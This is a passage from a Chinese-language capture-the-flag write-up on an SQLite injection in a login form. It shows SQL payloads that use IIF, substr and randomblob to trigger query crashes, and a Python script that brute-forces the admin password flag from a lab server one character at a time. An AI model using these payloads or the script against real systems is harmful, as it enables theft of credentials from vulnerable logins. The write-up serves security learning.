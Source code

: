            WHERE
                b = 'admin'
                AND IIF(length(c) = 10, (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # 
            ```
            在local測試時，FLAG1=`FLAG{test}`，也就是只有10個字，如果條件設定不符合時，就會query出東西，因為條件不符回傳1，如下圖
            ![圖片](https://hackmd.io/_uploads/SJxwu7Fwa.png)
            
            ---
            反之，就會query不出東西，也就是crash
            ![圖片](https://hackmd.io/_uploads/Hywt_QYvp.png)
        * 如果想要知道某一個字元可以substr這個function
            ```sql
            SELECT 
              json_extract(users, '$.admin.username') as a,
              json_extract(users, '$.admin.username') as b,
              json_extract(users, '$.admin.password') as c
            FROM db
            WHERE
                b = 'admin'
                AND IIF(substr(c, 1, 5) = 'FLAG{', (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # 
            ```
    4. 此時就可以開寫script去server端爆破FLAG1
## Exploit - Time Based SQLi
```python!
from requests import *
from string import *


strings = ascii_letters + digits + punctuation
url = "http://10.113.184.121:10081/login"

flag = ""
for i in range(27):
    if i == 26:
        flag += "}"
        break
    else:
        for string in strings:
            payload = f"admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db  WHERE    b = 'admin'    AND IIF(substr(c, 1, {i + 1}) = '{flag + string}', (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # "

            # payload = "admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db  WHERE    b = 'admin'    AND IIF(length(c) = 27, (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # "
            
            # print(payload)

            try:
                r = post(url=url, data={"username" : payload, "password" : "guest"})
            except:
                flag += string
                print(flag)
                break
print(flag)
```
